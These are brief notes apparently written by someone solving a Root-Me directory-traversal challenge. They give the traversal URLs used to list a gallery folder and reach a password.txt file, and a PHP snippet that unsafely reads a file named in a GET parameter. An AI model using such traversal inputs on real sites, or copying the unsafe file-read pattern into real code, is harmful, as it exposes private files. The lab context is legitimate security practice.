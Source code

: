 # Directory traversal



Initial address:

http://challenge01.root-me.org/web-serveur/ch15/ch15.php

\->

Then directory traversal:

http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=./

(it shows the all the elements in that directory)

\->

**(maybe it take some thing from that galarie param as GET request and then do ls): that is, param=../../ -> and that directory is processed with ls like command such that**

http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=86hwnX2r

\->

Then by 'open image in new tab'

http://challenge01.root-me.org/web-serveur/ch15/galerie/86hwnX2r/password.txt

***

source code.php

```
/**
* Get the filename from a GET input
* Example - https://example-website.com/?file=filename.php
*/
$file = $_GET[‘file’];

/**
* Unsafely include the file
* Example: filename.php
*/
file_get_contents(‘directory/’ . $file);
```
